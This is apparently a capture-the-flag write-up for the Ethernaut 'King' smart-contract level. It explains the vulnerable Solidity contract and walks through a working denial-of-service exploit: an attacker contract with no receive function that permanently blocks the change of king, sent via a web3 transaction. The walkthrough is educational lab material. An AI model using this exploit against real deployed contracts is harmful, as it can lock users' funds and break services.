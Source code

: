***King***

The contract below represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD

Such a fun game. Your goal is to break it.

When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}
```

Let's check out the solidity documentation and check out that transfer function to see if there may be a security consideration we need to understand.

From https://docs.soliditylang.org/en/v0.8.11/common-patterns.html :

Notice that, in this example, an attacker could trap the contract into an unusable state by causing `richest` to be the address of a contract that has a receive or fallback function which fails (e.g. by using `revert()` or by just consuming more than the 2300 gas stipend transferred to them). That way, whenever `transfer` is called to deliver funds to the “poisoned” contract, it will fail and thus also `becomeRichest` will fail, with the contract being stuck forever.

Let's try doing that... Below is a contract I wrote to send some ETH to the target contract.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import 'target.sol';

contract Hack {
  address payable public target = payable(0xFEa7497fE7DfED92cAeEc12e9bB59A7bc79d5BeB);

  function getSome() public payable {
        (bool s, ) = address(target).call{value: msg.value}("");
        require(s);
  }
}
```

Notice that without a recieve or fallback function to accept ETH, the King contract simply can't usurp us. This should achieve our goal of preventing the contract from designating a new king, but how can we send some ETH to it? We need to send at least 1000000000000000 wei, or 0.001 ETH.

One method is a self-destruct from another contract, as we examined in the Force challenge.

Another is to send some ETH to the function designated `getSome()`, but this may be more challenging than it seems. With Metamask, we run into an issue with the default `msg.value` being set to 0, and not configurable:

![](metamask0.jpg)

Another approach we can take is to manually call the function with the Ethernaut web3 console in the format `await sendTransaction({from:"", to:"", data:""})`.

Remember that we can find the function identifier `data` value is = `(bytes4(sha3("<functionName>()"))`

In this case, the function name of getSome() converted to sha3 is `0x7da2e9b9b14f0ca49d600cb34f9f47fdb7d5fbcaeb506480210b72b1ce196ea0`.

![Alt text](sha3.jpg)

To get the bytes4, we can take the first 8 characters after the 0x: `0x7da2e9b9` then fill in the rest with 0's:

```
await sendTransaction({
  from: "0x789bC753b5405463194Ef1FE607Fbf15328A58bd",
  to: "0x3EEBb225258C6BB362fd31217Ab8A6528d346462",
  data: "0x7da2e9b90000000000000000000000000000000000000000000000000000000000000000",
  value:"1000000000000000"
});
```

![Alt text](submit.jpg)

Submit the instance to win!

![Alt text](complete.jpg)
